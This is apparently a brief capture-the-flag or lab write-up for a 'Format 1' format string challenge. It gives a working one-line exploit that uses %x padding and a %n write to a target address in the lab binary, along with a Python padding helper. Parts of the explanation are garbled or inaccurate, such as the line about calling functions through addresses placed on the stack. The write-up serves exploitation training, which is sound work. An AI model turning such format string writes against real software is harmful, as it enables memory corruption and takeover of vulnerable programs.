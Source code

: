 # Format 1

Format string vulnerabilities. \(Memory Leak\)   
 Functions are called simply by placing they're address at the stack   


Using `objdump -t` we can find the target address. Since the program arguments are symply stored at the stack

```text
./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBB' + '%x '*127 + '%n '"`"
```

```python
def pad(s):
    return (s+"A"*500)[:500] #returns only first 500 chars

pad("Hello")
```

